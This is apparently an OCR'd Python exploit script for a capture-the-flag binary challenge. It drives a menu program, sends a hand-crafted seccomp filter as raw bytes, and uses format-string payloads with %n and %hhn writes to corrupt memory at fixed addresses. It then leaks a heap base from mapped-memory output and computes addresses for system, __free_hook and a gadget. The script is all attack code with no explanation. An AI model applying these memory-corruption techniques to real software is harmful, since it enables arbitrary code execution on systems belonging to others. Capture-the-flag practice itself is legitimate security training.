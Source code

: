 ```python
def sl(x):
    p.sendline(x)

def add(content,n=False):
    sl('1')
    ru('input the size')
    sl('240')
    ru('input your content: ')
    se(content)
    if n:
        sleep(0.5)
        se('000000000000-ffffffffffff r-xp 00000000 00:00 0 /bin/Ch4r1l3\n')        
    return ru('Your choice :')

ru('Your choice :')
sl('3')
ru('Your choice :')
sl('666')
ru('input yout choice: ')
sl('1') 
ru('input the size')

if debug:
    rule = ' \x00\x00\x00\x04\x00\x00\x00\x15\x00\x00\b>\x00\x00\xC0 \x00\x00\x00\x00\x00\x00\x00\x15\x00\x06\x00\x03\x00\x00\x00\x15\x00\x05\x00\xE7\x00\x00\x00\x15\x00\x00\x03\x02\x00\x00\x00 \x00\x00\x00\x10\x00\x00\x00T\x00\x00\x00\xFF\x00\x00\x00\x15\x00\x01\x00|\x00\x00\x00\x06\x00\x00\x00\x00\x00\xFF\x7F\x06\x00\x00\x00\x00\x00\x05\x00'

else:
    rule = ' \x00\x00\x00\x04\x00\x00\x00\x15\x00\x00\b>\x00\x00\xC0 \x00\x00\x00\x00\x00\x00\x00\x15\x00\x06\x00\x03\x00\x00\x00\x15\x00\x05\x00\xE7\x00\x00\x00\x15\x00\x00\x03\x02\x00\x00\x00 \x00\x00\x00\x10\x00\x00\x00T\x00\x00\x00\xFF\x00\x00\x00\x15\x00\x01\x00[\x00\x00\x00\x06\x00\x00\x00\x00\x00\xFF\x7F\x06\x00\x00\x00\x00\x00\x05\x00'

sl(str(len(rule)))
ru('input your content')
se(rule)

ru('Your choice :')
sl('4')
ru('Your choice :')

add(('%41c'+'%c'*7+'%n%n').ljust(0x18,'a')+p64(0x6020F0)+p64(0x6020F4),True)
data = add(('%249c'+'%c'*7+'%hhn').ljust(0x18,'a')+p64(0x6020f4),True)
wd = data.index('[heap]\n')+7
base = int(data[wd:wd+12],16)
add(('%41c'+'%c'*7+'%n%n').ljust(0x18,'a')+p64(0x6020F0)+p64(0x6020F4),True)


prctl = 0x602078
ooo = 0x602090

if debug:
    system = base + 0x45390
    free_hook = base + 0x3c67a8
else:
    system = base + 0x41490
    free_hook = base + 0x3a77c8

if debug:
    data = p64(base+0xf02a4)
else:
    data = p64(base+0x41374)
```